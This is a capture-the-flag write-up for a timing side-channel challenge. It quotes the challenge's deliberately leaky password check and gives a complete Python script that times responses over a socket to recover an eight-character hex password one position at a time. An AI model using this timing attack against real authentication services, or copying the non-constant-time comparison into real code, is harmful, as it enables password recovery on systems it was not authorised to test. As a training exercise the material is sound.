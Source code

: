 # Time will tell
## Challenge Statement:
Author: @aenygma

A side channel timing attack.  

Figure out the password in 90 seconds before connection terminates.  

The password is dynamic and changes every connection session.  
  
**NOTE, the password is eight characters long and will be hexadecimal.**

**Note**: This challenge was accompanied with a per-user instance

Attachment: [app.py](app.py)

## Solution:
Oh this was a good one. I mean they did tell it is side channel timing attack right there. But still we can have fun. We are given a python script [app.py](app.py). It is not a very big script, so if you want to go through it entirely you are free to do that, but here is the gist of the script.

```python
def generate_password() -> str:
    tmp = secrets.token_hex(PASSWORD_LEN).lower()
    # with open("dump", 'w') as fh:
    #     fh.write(tmp)
    return tmp
```

This function generates the password that we need to find. It uses secrets module. So no pseudo random passwords. The password will be 8 characters long compromising hex characters as the challenge description tells us.

Now the big guns of the script:

```python
def do_heavy_compute() -> None:
    time.sleep(SIMULATE_COMPUTE_TIME)

def check_guess(guess, realdeal) -> bool:
    if len(guess) != len(realdeal):
        return False
    do_heavy_compute()
    for idx in range(len(guess)):
        if guess[idx] == realdeal[idx]:
            do_heavy_compute()
        else:
            return False
    return True
```
We have a function `do_heavy_compute` that just sleeps for 0.1 second. It is made use by the `check_guess` function below that. Now this is where the base of exploit is. We can draw a number of points from here:

1. If the length of our guess isn't equal to the length of the `realdeal` (the password to guess), it just exits right away.
2. If both have the same length, then the guesses are iterated with each index. So for every right character we guess from the start, the more number of times `do_heavy_compute` is called.  
3. If we guess a wrong character in an index the function just returns.

So in summary, if our guess and the password is off same length, then the function or the program will sleep more with as many number of right guesses we have from the left.

One can think that it's just 8 hexadecimal characters. So 16**8 = 4294967296. All we have is 90 seconds. So no, brute force is not an option.

What we can do is, we can guess 8 character passwords with the varying the leftmost character in the password. One of those guesses must take longer than the others to return. So if we record our timings, the character with most delay must be the valid character in that index. Then we can move the next one in the right. Moving right and right, the program will take longer periods of delay if we are building the right password.

I then spun up the instance just to see how the service is. It was a netcat connection. 

![checking the service](assets/1.png)

So we got some text, a prompt and incorrect messages. In 90 seconds, I don't really think it is possible to type in 128 guesses (16 * 8) and time it as well. Of course, python script to the rescue. I put together [solve.py](solve.py) 
to read from the socket and send the guesses and record the timings in a list.

```python
import time
import socket
import sys
import select

chars = [0]*8
seek = 0
timings = []

def getNext() -> str:
    global seek
    global timings
    if seek == 8:
        print("Password should have been obtained")
        exit(0)
    if chars[seek] != 16:
        nextstr = ""
        for i in chars:
            nextstr += hex(i)[2]
        chars[seek] += 1
        return nextstr
    else:
        selected = timings.index(max(timings))
        print("Selected: {}".format(selected))
        chars[seek] = selected
        timings.clear()
        seek += 1
        return getNext()

def readFromSocket(soc: socket.socket) -> str:
    readBuffer, _, _ = select.select([soc], [], [], 0)
    if readBuffer:
        fromserver = soc.recv(2048).decode()
        return fromserver
    else:
        return ""

if __name__=="__main__":
    nextpass=""
    cSoc = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    cSoc.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1)
    cSoc.connect(('challenge.ctf.games',int(sys.argv[1])))
    start = time.time()
    while True:
        inLine = readFromSocket(cSoc)
        if inLine == "":
            continue
        diff = time.time()-start
        timings.append(diff)
        print("    Timing: {}, value: {}, Server: {}".format(diff, nextpass, inLine),end="")
        nextpass = getNext()
        cSoc.send((nextpass+'\n').encode())
        start = time.time()
```

The code is mostly self explanatory, but let me give a quick run down. Function `getNext` generates the guesses based on the value of variable `seek` starting from 0 to 7, hence mimicking moving left to right. I used a list of integers to house the guesses as we are working with hex numbers. On each complete iteration on a particular seek, it goes from 0 to f(15) and sets the character to the highest timing taken to come back. Function `readFromSocket` is just one of my arsenal functions to deal with the blocking thing of `recv` function. Then there is `main` that puts everything together.

All that's left now is to execute the script, sit back and look out for flag. Since this operation is over the network, it might take more than a couple tries to get things right. Like for instance, in the below execution the timing of the return remains as `0.3` seconds on average across different seek positions. So it is safe to conclude that the right character was not set. 

![failure attempt](assets/2.png)

But with a few tries, the timings across the seek positions will vary reliably indicating right guesses. If you are patient enough to try multiple times, it should work. Like the one below:

![success](assets/3.png)

Overall, this was a good challenge. I had fun will putting together the script. And it kind of mimics certain real-world scenarios based on timing based attacks. So yeah, I liked this one.

